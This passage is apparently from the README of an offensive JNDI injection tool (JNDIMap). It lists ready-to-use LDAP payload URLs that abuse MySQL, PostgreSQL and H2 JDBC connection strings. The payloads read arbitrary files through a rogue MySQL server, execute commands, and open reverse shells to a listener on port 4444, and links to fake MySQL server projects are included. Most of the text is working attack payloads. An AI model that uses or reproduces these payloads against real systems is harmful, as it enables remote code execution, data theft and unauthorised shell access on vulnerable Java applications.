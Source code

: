 #### MySQL Client Arbitrary File Read

```bash
# all versions
ldap://127.0.0.1:1389/Factory/MySQL/FileRead/127.0.0.1/3306/root
```

JDBC URL (for reference)

```bash
# all versions
jdbc:mysql://127.0.0.1:3306/test?allowLoadLocalInfile=true&allowUrlInLocalInfile=true&allowLoadLocalInfileInPath=/&maxAllowedPacket=655360
```

The above two methods require a malicious MySQL server to be used

[https://github.com/4ra1n/mysql-fake-server](https://github.com/4ra1n/mysql-fake-server)

[https://github.com/rmb122/rogue_mysql_server](https://github.com/rmb122/rogue_mysql_server)

[https://github.com/fnmsd/MySQL_Fake_Server](https://github.com/fnmsd/MySQL_Fake_Server)

### PostgreSQL

Instantiate ClassPathXmlApplicationContext via the socketFactory and socketFactoryArg parameters of the PostgreSQL JDBC URL to achieve RCE

```bash
# execute command
ldap://127.0.0.1:1389/Factory/PostgreSQL/Command/open -a Calculator

# reverse shell
ldap://127.0.0.1:1389/Factory/PostgreSQL/ReverseShell/127.0.0.1/4444
```

### H2

Execute SQL statements via the INIT parameter of the H2 JDBC URL, support command execution and reverse shell

Support three methods: CREATE ALIAS + Java/Groovy, CREATE TRIGGER + JavaScript

```bash
# execute command
ldap://127.0.0.1:1389/Factory/H2/Java/Command/open -a Calculator
ldap://127.0.0.1:1389/Factory/H2/Groovy/Command/open -a Calculator
ldap://127.0.0.1:1389/Factory/H2/JavaScript/Command/open -a Calculator

# reverse shell
ldap://127.0.0.1:1389/Factory/H2/Java/ReverseShell/127.0.0.1/4444
ldap://127.0.0.1:1389/Factory/H2/Groovy/ReverseShell/127.0.0.1/4444
ldap://127.0.0.1:1389/Factory/H2/JavaScript/ReverseShell/127.0.0.1/4444
```

In addition, JNDIMap also supports H2 RCE in **JRE environment**

*Java 15 and above versions have deleted the Nashorn JS engine, and the JRE environment itself does not include the javac command, so the above Java/JavaScript method cannot be used to achieve RCE*
